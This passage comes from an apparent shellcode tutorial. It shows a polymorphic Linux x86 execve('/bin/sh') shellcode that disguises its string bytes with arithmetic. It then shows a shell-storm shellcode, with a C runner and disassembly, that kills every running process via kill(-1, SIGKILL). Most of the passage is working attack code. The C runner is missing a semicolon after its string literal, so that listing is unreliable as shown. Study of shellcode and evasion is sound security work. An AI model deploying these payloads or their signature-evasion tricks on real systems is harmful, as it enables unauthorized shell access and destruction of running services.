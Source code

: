 Lets make use of MOV instruction and modify the hardcoded bytes from the original shellcode:

```
global _start

section .text
_start:
 xor ecx,ecx
 mul ecx
 mov al,0xb
 push ecx

 mov esi, 0x57621e1e
 add esi, 0x11111111           ;; hs//
 mov dword [esp-4], esi        

 mov dword [esp-8], 0x6e69622f ;; nib/
 sub esp, 8

 mov ebx,esp
 int 0x80
```

### 3) LINUX/X86 – KILL ALL RUNNING PROCESS

The following shellcode is available on shell-storm which is written by gunslinger_:

Original code:

```
#include <stdio.h>

char *killer=
 "\x31\xc0"                    /* xor    %eax,%eax */
 "\xb0\x25"                    /* mov    $0x25,%al */
 "\x6a\xff"                    /* push   $0xffffffff */
 "\x5b"                        /* pop    %ebx */
 "\xb1\x09"                    /* mov    $0x9,%cl */
 "\xcd\x80"                    /* int    $0x80 */


int main(void)
{
		fprintf(stdout,"Length: %d\n",strlen(killer));
		((void (*)(void)) killer)();
		return 0;
}
```

#### Using ndisasm to view the assembly code:

```
Command-Line 
==> echo -ne "\x31\xc0\xb0\x25\x6a\xff\x5b\xb1\x09\xcd\x80" | ndisasm -u -

; kill(-1, SIGKILL=9)
00000000 31C0     xor eax,eax
00000002 B025     mov al,0x25
00000004 6AFF     push byte -0x1
00000006 5B       pop ebx
00000007 B109     mov cl,0x9
00000009 CD80     int 0x80
```

